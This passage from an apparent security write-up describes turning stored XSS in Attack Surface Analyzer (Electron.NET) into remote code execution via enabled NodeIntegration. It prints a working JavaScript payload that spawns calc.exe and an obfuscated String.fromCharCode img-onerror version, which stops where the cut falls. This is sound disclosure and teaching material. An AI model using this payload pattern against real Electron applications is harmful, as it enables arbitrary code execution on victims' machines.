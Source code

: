 When you navigate to the `Scan` tab, the application retrieves the information
for the latest submitted run (the one we submitted from host VM) and the
injected payload is executed. This means an attacker can connect to the app via
port `8001`, submit XSS and then it will pop in ASA when we use it locally.

# Vuln 3: XSS to RCE via NodeIntegration
Being Electron, I immediately thought of RCE. There are a lot of write-ups about
how you can convert an XSS to RCE in Electron. It's easy when `NodeIntegration`
is enabled which is the case for Electron.NET
([link to the current commit][electron.net-github-webpreferences]):

{{< codecaption title="WebPreferences.cs" lang="cs" >}}
/// <summary>
/// Whether node integration is enabled. Default is true.
/// </summary>
[DefaultValue(true)]
public bool NodeIntegration { get; set; } = true;
{{< /codecaption >}}

More info:

* [Electron Security - Do not enable Node.js Integration for Remote Content][electron-security-nodeintegration]

This means we can use the XSS to spawn processes in the guest VM running ASA.
Note that there are `NodeIntegration` bypasses so just disabling it might not be
enough.

### The RCE Payload
It's the typical `Electron XSS to RCE` payload. Google one and use it.

{{< codecaption title="XSS to RCE Payload" lang="js" >}}
var Process = process.binding('process_wrap').Process;
var proc = new Process();
proc.onexit = function(a,b) {};
var env = process.env;
var env_ = [];
for (var key in env) env_.push(key+'='+env[key]);
proc.spawn({file:'calc.exe',args:[],cwd:null,windowsVerbatimArguments:false,
    detached:false,envPairs:env_,stdio:[{type:'ignore'},{type:'ignore'},
    {type:'ignore'}]});
{{< /codecaption >}}

Use the [JavaScript eval String.fromCharCode encoder][eval-encoder] to convert
it to the following. Then submit a new run with the payload as the `Run Id` from
the browser in the host machine (note that I have added a bogus `id` element to
make each payload unique):

```html
<img id="5" src=x onerror=eval(String.fromCharCode(118,97,114,32,80,114,111,99,
101,115,115,32,61,32,112,114,111,99,101,115,115,46,98,105,110,100,105,110,103,
40,39,112,114,111,99,101,115,115,95,119,114,97,112,39,41,46,80,114,111,99,101,
115,115,59,10,118,97,114,32,112,114,111,99,32,61,32,110,101,119,32,80,114,111,
99,101,115,115,40,41,59,10,112,114,111,99,46,111,110,101,120,105,116,32,61,32,
102,117,110,99,116,105,111,110,40,97,44,98,41,32,123,125,59,10,118,97,114,32,
101,110,118,32,61,32,112,114,111,99,101,115,115,46,101,110,118,59,10,118,97,114,
32,101,110,118,95,32,61,32,91,93,59,10,102,111,114,32,40,118,97,114,32,107,101,
121,32,105,110,32,101,110,118,41,32,101,110,118,95,46,112,117,115,104,40,107,
101,121,43,39,61,39,43,101,110,118,91,107,101,121,93,41,59,10,112,114,111,99,46,
115,112,97,119,110,40,123,102,105,108,101,58,39,99,97,108,99,46,101,120,101,39,
44,97,114,103,115,58,91,93,44,99,119,100,58,110,117,108,108,44,119,105,110,100,
111,119,115,86,101,114,98,97,116,105,109,65,114,103,117,109,101,110,116,115,58,
102,97,108,115,101,44,100,101,116,97,99,104,101,100,58,102,97,108,115,101,44,
101,110,118,80,97,105,114,115,58,101,110,118,95,44,115,116,100,105,111,58,91,
123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,
```

[asa-github]: https://github.com/microsoft/AttackSurfaceAnalyzer
[electron.net-github]: https://github.com/ElectronNET/Electron.NET
[matt-twitter]: https://twitter.com/mattt_cyber
[electron-website]: https://electronjs.org/
[kestrel-docs]: https://docs.microsoft.com/en-us/aspnet/core/fundamentals/servers/kestrel
[ASA-v2]: https://github.com/microsoft/AttackSurfaceAnalyzer/releases/tag/v2.0.143%2Bfe41ced7df
[modern.ie]: https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/
[lewis-twitter]: https://twitter.com/lewisardern
[electron.net-github-webpreferences]: https://github.com/ElectronNET/Electron.NET/blob/3cb92169dd1fc4ca917e1a48551192038f68bbec/ElectronNET.API/Entities/WebPreferences.cs#L18
[electron-security-nodeintegration]: https://github.com/electron/electron/blob/master/docs/tutorial/security.md#2-do-not-enable-nodejs-integration-for-remote-content
[eval-encoder]: https://eve.gd/2007/05/15/javascript-eval-string-fromcharcode-encoder/
[main.js-startAspCoreBackend]: https://github.com/ElectronNET/Electron.NET/blob/131d1d9dd115d480b2c65353d44b9433b8b874f2/ElectronNET.Host/main.js#L141
[kestrel-filtering]: https://docs.microsoft.com/en-us/aspnet/core/fundamentals/servers/kestrel#host-filtering
[electron-security]: https://github.com/electron/electron/blob/master/docs/tutorial/security.md
[msrc-link]: https://msrc.microsoft.com/
[218-commit]: https://github.com/microsoft/AttackSurfaceAnalyzer/commit/0dffa1a04a4c047ddd7f682c0def740a8f17c810
[220-commit]: https://github.com/microsoft/AttackSurfaceAnalyzer/commit/37bce60e86e1d727970be6e5aa6ba1a1d8083b35
[launchSettings-link]: https://github.com/microsoft/AttackSurfaceAnalyzer/blob/37bce60e86e1d727970be6e5aa6ba1a1d8083b35/Gui/Properties/launchSettings.json#L30
[collect-link]: https://github.com/microsoft/AttackSurfaceAnalyzer/blob/3dec668982b513f92cb9bc8a00ff57fdaada14da/Gui/wwwroot/js/Collect.js#L59-L98